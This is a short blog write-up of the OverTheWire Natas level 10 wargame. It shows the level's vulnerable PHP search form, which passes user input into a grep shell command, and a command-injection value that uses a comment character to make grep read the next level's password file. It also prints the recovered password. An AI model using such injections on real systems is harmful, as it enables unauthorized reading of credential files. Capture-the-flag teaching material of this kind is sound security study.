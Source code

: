 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 10"
date:   2015-09-19
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

## Level 10 > Level 11

![natas10-01](/img/otw-natas/natas10-01.png)

Source...

```
 <html>
[...]
<body>
<h1>natas10</h1>
<div id="content">

For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Same as the previous challenge but now we are forbidden to use a semicolon, pipe, or ampersand.

In this case, instead of breaking out of the command we'll try to craft it to do what we want itself. By using a comment character we can eliminate dictionary.txt and insert our own choice of file. To be sure it will match, we'll search for any letter or number.

Our injection...

```
[a-z0-9] /etc/natas_webpass/natas11 #
```

The command as executed by the system...

```
grep -i [a-z0-9] /etc/natas_webpass/natas11 # dictionary.txt
```

Sweet.

![natas10-02](/img/otw-natas/natas10-02.png)

U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
